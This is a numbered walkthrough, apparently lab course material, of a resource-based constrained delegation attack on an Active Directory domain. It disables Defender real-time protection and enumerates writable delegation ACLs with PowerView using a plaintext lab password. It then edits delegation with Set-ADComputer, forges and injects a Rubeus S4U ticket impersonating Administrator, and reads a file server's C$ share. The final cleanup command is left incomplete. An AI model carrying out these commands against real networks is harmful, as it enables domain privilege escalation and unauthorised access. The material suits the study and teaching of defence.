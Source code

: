 # Attack

1. Start a SOCKS proxy on the medium-integrity Beacon.
   1. socks 1080
2. From the Windows Start Menu, launch Proxifier.
3. Go **Profile > Proxy Servers** and add a new proxy server.
   1. Address: 10.0.0.5
   2. Port: 1080
   3. Protocol: Version 4
4. Use this proxy by default? -> No.
5. Edit Proxification Rules now? -> Yes.
6. Add a new proxification rule.
   1. Name: Beacon
   2. Applications: Any
   3. Target hosts: 10.10.120.0/23
   4. Target ports: Any
   5. Action: Proxy SOCKS4 10.0.0.5
7. Open a Terminal window as administrator.
8. Add a host entry for _lon-dc-1_.
   1. Add-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Value '10.10.120.1 lon-dc-1'
9. Disable Defender's real-time protection.
   1. Set-MpPreference -DisableRealtimeMonitoring $true
10. Import PowerView.
    1. ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
11. Create a new plaintext credential object.

    1. $Cred = Get-Credential CONTOSO\rsteel

    > The password is Passw0rd!.
12. Find principals that have WriteProperty privileges on the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of computers.

    ```powershell
    Get-DomainComputer -Server 'lon-dc-1' -Credential $Cred | Get-DomainObjectAcl -Server 'lon-dc-1' -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier
    ```
13. Resolve the SID to a domain group.

    ```powershell
    Get-ADGroup -Filter 'objectsid -eq "S-1-5-21-3926355307-1661546229-813047887-1107"' -Server 'lon-dc-1' -Credential $Cred
    ```
14. Check for any existing RBCD configurations.

    ```powershell
    Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
    ```
15. Add RBCD between _lon-fs-1_ and _lon-wkstn-1_, making sure not to overwrite the existing entry.

    ```powershell
    $ws1 = Get-ADComputer -Identity 'lon-ws-1' -Server 'lon-dc-1' -Credential $Cred
    $wkstn1 = Get-ADComputer -Identity 'lon-wkstn-1' -Server 'lon-dc-1' -Credential $Cred
    Set-ADComputer -Identity 'lon-fs-1' -PrincipalsAllowedToDelegateToAccount $ws1,$wkstn1 -Server 'lon-dc-1' -Credential $Cred
    ```
16. Verify that _lon-wkstn-1_ was added.

    ```powershell
    Get-ADComputer -Identity 'lon-fs-1' -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
    ```
17. In the high-integrity Beacon, obtain a TGT for _lon-wkstn-1_.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
    ```
18. Request a usable service ticket for _cifs/lon-fs-1_, impersonating the default domain administrator.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-wkstn-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /ticket:[TGT] /nowrap
    ```
19. Inject the ticket into a sacrificial logon session.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]
    ```
20. Impersonate the process.
    1. steal\_token \[PID]
21. Verify the ticket was injected.
    1. run klist
22. Use the ticket to list C$ on lon-fs-1.
    1. ls \\\lon-fs-1\c$
23. On the Atacker Desktop, restore the RBCD configuration back to how it was.

    ```powershell
    Set-ADComputer -Identity 'lon-fs-1' -PrincipalsAllowedToDelegateToAccount 
    ```
